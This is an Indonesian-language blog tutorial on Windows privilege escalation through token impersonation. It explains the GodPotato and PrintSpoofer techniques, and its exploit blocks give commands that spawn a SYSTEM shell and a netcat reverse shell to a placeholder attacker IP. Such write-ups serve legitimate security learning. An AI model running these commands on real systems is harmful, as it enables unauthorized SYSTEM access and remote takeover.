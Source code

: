 ```yaml
---
title: "[Windows PrivEsc] Token Impersonation (SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege)"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Windows Privilege Escalation]
tags: [Windows Privilege Escalation]
image:
  path: /images/2024-11-20-windows-privilege-escalation-seimpersonateprivilege-token-impersonation-banner.png
---
```


Impersonate adalah hak istimewa di Windows yang memungkinkan kita untuk menyamar sebagai User lain (termasuk menyamar sebagai `NT AUTHORITY\SYSTEM`) untuk menjalankan sebuah tugas atau proses di bawah naungan User tersebut.

> **Why?**
> 
> Kita ambil contoh Service IIS (Web Server).

Ketika User yang menjalankan service IIS bukanlah `NT AUTHORITY\SYSTEM`, maka proses yang dijalankan oleh Service tersebut mungkin tidak memiliki Privilege yang cukup untuk mengakses semua sumber daya (Resource) yang dibutuhkan oleh IIS untuk mengoperasikan Web Server secara keseluruhan.

Namun **dengan menggunakan Impersonation, layanan IIS masih dapat menjalankan tugas tertentu yang memerlukan hak istimewa tanpa harus (User IIS-nya) di-setting menggunakan Role khusus**. Jadi, dengan ini, layanan IIS **masih dapat melanjutkan tugasnya tanpa harus terhenti hanya karena user IIS tidak memiliki Role yang setara** dengan `NT AUTHORITY\SYSTEM`.

# Abuse Token Impersonation

Namun dengan adanya fitur Impersonation ini, Kita dapat memanfaatkannya untuk meningkatkan hak akses dari user (yang memiliki atribut `SeImpersonatePrivilege` atau `SeAssignPrimaryTokenPrivilege`) menjadi `NT AUTHORITY\SYSTEM`.

| Privilege                       | Windows API Function         | Tujuan                                                              |
|---------------------------------|------------------------------|---------------------------------------------------------------------|
| `SeImpersonatePrivilege`        | [**CreateProcessWithTokenW**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)  | Meniru token untuk menjalankan proses dengan hak istimewa tertentu. |
| `SeAssignPrimaryTokenPrivilege` | [**CreateProcessAsUserA**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) | Mengganti token utama untuk membuat proses dengan identitas baru.   |

# Exploit

## GodPotato (Windows 2012-2022)

> **Affected:** Windows Server 2012 - Windows Server 2022, Windows 8, Windows 10, & Windows 11 (Until 2022)
>
> [GodPotato.exe](https://github.com/BeichenDream/GodPotato/releases/latest) by **BeichenDream** [2023]

Exploit:
```powershell
# Run Command
.\GodPotato -cmd "cmd /c whoami"

# Reverse Shell
GodPotato -cmd "C:\Windows\temp\nc.exe -t -e C:\Windows\System32\cmd.exe <ATTACKER_IP> 443"
```

**Method**

Pada `DCOM`, ditemukan kelemahan pada cara `rpcss` menangani `oxid`. Karena `rpcss` adalah layanan SYSTEM yang selalu aktif, metode ini dapat dijalankan hampir di semua versi Windows Tahun 2012-2022.

GodPotato menggunakan metode ini untuk meningkatkan hak akses (Privilege Escalation) di Windows (2012-2022) dengan memanfaatkan kelemahan pada `DCOM` dan layanan `rpcss`. Jika seorang pengguna memiliki izin **SeImpersonatePrivilege**, mereka dapat meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`.

## PrintSpoofer (Windows ~2019)

> **Affected:** Windows 10, Windows Server 2019  (Until 2019)
> 
> [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/latest) by **itm4n** [2020]

Exploit:
```powershell
# Interactive Shell
.\PrintSpoofer.exe -i -c cmd

# Reverse Shell
.\PrintSpoofer.exe -c "C:\Windows\temp\nc.exe <ATTACKER_IP> 443 -e cmd"
```

**Method**

PrintSpoofer memanfaatkan Named Pipe untuk melakukan impersonasi menggunakan fungsi ImpersonateNamedPipeClient().
1. Membuat Named Pipe dengan `CreateNamedPipe()` dan memberikan akses ke semua orang.
2. Menggunakan `ConnectNamedPipe()` untuk menunggu koneksi klien.
3. Setelah koneksi diterima, `ImpersonateNamedPipeClient()` digunakan untuk mendapatkan hak akses klien dan menjalankan kode sebagai pengguna tersebut.

Untuk memaksa `SYSTEM`, PrintSpoofer menggunakan eksploitasi **PrinterBug** yang memanfaatkan fungsi `RpcRemoteFindFirstPrinterChangeNotificationEx()`. Ini digunakan oleh Print Service untuk mengirim notifikasi perubahan melalui RPC (Remote Procedure Call) menggunakan Named Pipe.

> Namun, **spoolss Named Pipe bawaan yang digunakan oleh Print Service itu sudah dimiliki oleh SYSTEM** dan tidak bisa digantikan.

**Bypass**

Bypass yang digunakan yaitu dengan menambahkan karakter "/" ke dalam nama host, lalu sistem akan menganggap itu valid, sehingga validasi dapat di-bypass. Seperti `\\HOSTNAME/pipe/foo123` akan diubah menjadi `\\HOSTNAME\pipe\foo123\pipe\spoolss` secara otomatis oleh sistem. Yang artinya, kita bisa membuat Named Pipe yang terlihat seperti milik SYSTEM, sehingga SYSTEM tanpa sadar akan terhubung ke Named Pipe yang kita buat. Hasilnya, fungsi Printer akan terhubung ke Named Pipe yang sudah kita kontrol dan token SYSTEM akan kita terima.
